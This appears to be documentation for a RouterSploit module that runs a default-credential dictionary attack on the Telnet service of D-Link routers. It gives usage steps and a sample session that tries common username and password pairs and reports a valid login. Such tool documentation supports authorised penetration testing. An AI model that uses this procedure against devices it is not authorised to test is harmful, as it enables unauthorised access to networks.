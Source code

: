 ## Description

Module performs dictionary attack with default credentials against D-Link Router Telnet service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/routers/dlink/telnet_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/dlink/telnet_default_creds
rsf (D-Link Router Default Telnet Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (D-Link Router Default Telnet Creds) > run
[*] Running module...
[*] Target exposes Telnet service
[*] Starting default credentials attack against Telnet service
[*] thread-0 thread is starting...
[-] Telnet Authentication Failed - Username: 'admin' Password: 'admin'
[-] Telnet Authentication Failed - Username: '1234' Password: '1234'
[-] Telnet Authentication Failed - Username: 'root' Password: '12345'
[-] Telnet Authentication Failed - Username: 'root' Password: 'root'
[+] Telnet Authentication Successful - Username: 'user' Password: 'user'
[*] thread-0 thread is terminated.
[*] Elapsed time: 5.389287948608398 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     23       telnet      user         user

```
